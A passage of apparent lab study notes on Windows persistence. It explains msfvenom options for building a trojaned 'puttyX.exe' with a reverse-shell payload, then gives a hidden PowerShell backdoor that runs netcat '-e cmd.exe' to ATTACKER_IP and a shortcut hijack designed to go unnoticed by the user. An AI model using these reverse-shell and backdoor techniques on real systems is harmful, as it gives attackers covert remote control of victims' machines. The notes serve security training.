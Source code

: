  **`-p windows/x64/shell_reverse_tcp`**:
- **Payload to be injected**. The `-p` flag specifies the payload.
- In this case, the `windows/x64/shell_reverse_tcp` payload is used, which opens a **reverse shell** on the victim's machine. This means the victim's machine will initiate a connection back to the attacker's system.
- A **reverse shell** allows the attacker to execute commands remotely on the victim’s system once the connection is established.

**`lhost=ATTACKER_IP`**:
- **Local Host**. This specifies the **IP address** of the attacker's machine where the reverse shell will connect to.
- You would replace `ATTACKER_IP` with your **attacking machine's IP address** (e.g., `192.168.1.100`).

 **`lport=4444`**:
- **Local Port**. This specifies the **port number** on the attacker's machine that will be used to listen for incoming connections from the reverse shell.
- In this case, port `4444` is commonly used, but it can be changed to any available port on the attacker's machine.

 **`-b "\x00"`**:
- **Bad characters**. The `-b` flag specifies **bad characters** that should not be included in the payload.
- In this case, `"\x00"` (null byte) is specified as a bad character because it can terminate strings prematurely in many programming contexts, leading to payload issues.

 **`-f exe`**:
- **Format**. The `-f` flag specifies the format of the output file.
- Here, `exe` means the output will be a **Windows executable file**.

 **`-o puttyX.exe`**:
- **Output file**. The `-o` flag is used to specify the **output file name**.
- In this case, the modified, malicious executable will be saved as `puttyX.exe`.

### Shortcut Files
If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to **calc** on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:
	![[Pasted image 20240910022812.png]]

Before hijacking the shortcut's target, let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the `-windowstyle hidden` option to Powershell. The final target of the shortcut would be:
```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```
![[Pasted image 20240910022927.png]]
